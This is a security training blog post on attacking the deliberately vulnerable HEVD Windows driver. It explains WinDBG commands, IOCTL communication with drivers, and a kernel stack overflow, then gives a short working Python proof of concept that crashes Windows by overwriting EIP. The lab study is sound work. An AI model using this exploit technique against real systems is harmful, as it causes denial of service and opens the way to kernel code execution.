:slug: hevd-dos/
:date: 2020-09-14
:category: attacks
:subtitle: How to crash Windows
:tags: osee, training, exploit, windows, kernel, hevd
:image: cover.png
:alt: Photo by Caleb Woods on Unsplash
:description: This article will be the first approach to start exploting HackSys Extremely Vulnerable Driver with a Denial of Service
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/-Ifr1HGFeW8

= HEVD: Denial of Service

In the last link:../windows-kernel-debugging/[post], we were able to setup
a lab environment to start exploiting vulnerabilities in the Windows kernel
space.

This article will focus on the first steps to exploit the vulnerabilities
on HackSys Extreme Vulnerable Driver (`HEVD`).

First we need to get familiar with `WinDBG` which is a very powerful
debugger from Microsoft but has a steep learning curve. We'll also use
`IDA`, of which I'm using the freeware version which is enough for most of
what we're going to face.

In the end, we're going to be able to crash our Windows 10 OS by leveraging
a vulnerability on `HEVD`. It's nice to crash things for the sake of science.

Let's get our hands dirty!

== WinDBG 101

Before dealing with the exploitation process, I will list some `WinDBG`
commands that have helped me. This is selfishly written as a reference
for myself but kindly shared with you.

* `g`: Short for `Go`. Will resume the execution of the debuggee.



* `t`: Short for `Step Into`: Will execute the next instruction. If it's a
`call`, will jump into the call content.

* `p`: Sort for `Step Over`: Will execute the next instruction. If it's a
`call`, will execute whatever the call does and jump over it.

* `gu`: Short for `Step Out`: Will resume the execution until a `ret`
instruction is found. Useful when you `Step Into` a function and want to
return to the place it was called.



* `d*` family: Short for `Display Memory`. Will dump the contents of a given
memory address. The most useful variation on 32 bits debugging is
`dc` (dump double-word and ASCII chars).



* `lm`: Short for `List Loaded Modules`. You can filter the ouput
using `lm m <module>`.





* `dt`: Short for `Display Type`. Used to list data structures.



* `r`: Short for `Registers`. Will show the value of all the processor
registers and flags. It's also used to change the value of a register.



* `u`: Short for `Unassemble`. Will show the instructions at the given
memory address.



* `x`: Short for `Examine Symbols`. Will show the symbols at a given module.



* `e*` family: Short for `Enter Values`. Will enter a given value to a
specified memory location. The most used variation on 32 bits debugging
is `ed` (enter double-word value).



* `?`: Evaluate expression.



* `bp`: Short for `Breakpoint`: Will set a software breakpoint at given
address.

* `bl`: Short for `List Breakpoints`: List current breakpoints.

* `bc`: Short for `Clear Breakpoint`: Remove breakpoints.



This is by no means a comprehensive `WinDBG` reference but will show the
commands I use the most when debugging.

== Talking to Windows drivers

The common main goal of Windows Kernel exploitation is to elevate privileges
to perform any desired task on the affected computer with the most
powerful permissions. We do that, by finding a vulnerability in a piece of
code running at kernel-space and establishing a communication between the
exploit in user-mode and the target in kernel-mode which is where the
drivers live.

As Windows runs in protected mode, user-land instructions cannot
access to kernel-space memory. However, there is an interface provided
by the OS that allows talking to drivers: `IOCTL` calls.

When a driver is installed, it sets a device name using the `IoCreateDevice`
call.



It then defines the routines that will expose. Commonly, those routines are
basically functions that will interact with other layer of the OS
(Hardware Abstraction Layer or `HAL` for example) to manipulate a hardware
device. In `HEVD`, those routines are simply functions happening at kernel
level with several vulnerabilities.

Each routine is identified by a `IOCTL` (I/O control) code.

The driver will accept calls to that routines using `IRP` (I/O Request Packets)
structures and will set a handler that will dispatch the specific routine,
given a specific `IOCTL` code:



The `IrpDeviceIoCtlHandler` function in `HEVD` creates a jump table (like
a `switch` statement) for each managed `IOCTL` code:



In `HEVD`, each `case` of that `switch` statement is handled by another
function that will trigger a specific vulnerable function:



Now, if we want to talk to that driver, we must get a handle to the
driver's device name, which is `HackSysExtremeVulnerableDrive` in the
case of `HEVD`, and use the `DeviceIoControl` function to send the
`IOCTL` code we want, along with the payload.

In Python, there's a third-party package called `infi.wioctl` that wraps
those calls nicely:

[source,python]
----
from infi.wioctl import DeviceIoControl

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_CODE, PAYLOAD, SIZE, 0, 0)
----

With that, we can start looking for our fist vulnerability on `HEVD`.

== HEVD stack overflow

`HEVD` has several vulnerabilities built-in. In this post, we will discover
the most basic, a stack overflow.

When we look at the jump table generated by the `IrpDeviceIoCtlHandler`
function, the first case is this:



Which is triggered when the `IOCTL` code is `2236419` decimal or `0x222003`
in hex. Here, a call to `BufferOverflowStackIoctlHandler` is performed.

Inside `BufferOverflowStackIoctlHandler`, there is a check verifying if
the `IRP` package contains user-supplied data. If it does, a call to
`TriggerBufferOverflowStack` is performed:



You can also note that the pointer to the user data is placed on `EDX` and
the pointer to the size of the user data is placed on `EAX`. That information
is then pushed to the stack as the parameters for `TriggerBufferOverflowStack`.
You can see the same in the source code of `HEVD` :

[source,cpp]
----
NTSTATUS
BufferOverflowStackIoctlHandler(
    _In_ PIRP Irp,
    _In_ PIO_STACK_LOCATION IrpSp
)
{
    SIZE_T Size = 0;
    PVOID UserBuffer = NULL;
    NTSTATUS Status = STATUS_UNSUCCESSFUL;

    UNREFERENCED_PARAMETER(Irp);
    PAGED_CODE();

    UserBuffer = IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;
    Size = IrpSp->Parameters.DeviceIoControl.InputBufferLength;

    if (UserBuffer)
    {
        Status = TriggerBufferOverflowStack(UserBuffer, Size);
    }

    return Status;
}
----

In the `TriggerBufferOverflowStack` function, the first important thing
to notice is that a `memset(&KernelBuffer, 0, 800h)` call is done:



This indicates that the buffer is `800h` or `2048` bytes long.

In the end of `TriggerBufferOverflowStack`, a call to
`memcpy(&KernelBuffer, &UserBuffer, SizeOfUserBuffer)` is performed,
which is a classic example of buffer overflow, because we control both the
`UserBuffer` data and the `SizeOfUserBuffer` value:



Great, it means that if we'd wanted to overflow the `KernelBuffer`
variable, we must inject a payload with more than 2048 bytes, using the
`IOCTL` code `0x222003`. Let's create our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow DoS.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-dos/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003
SIZE = 3000

PAYLOAD = (
    b'A' * SIZE
)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

And check it:



Great! We were able to overwrite `EIP` with our `A` buffer! Now the
target machine is completely unusable and our `DoS` attack was successful.

Also, as we could evidence in our previous
link:../tags/osce/[exploitation posts], when we control `EIP`, we control
the execution flow.

== Conclusions

This post was intended to cover the very first part for interacting
with a Windows driver and we were able to perform a full Denial of Service
of the victim machine. In the next post, we will use the proven ability
to control the execution flow to
link:../hevd-smep-bypass/[execute code at kernel-level].
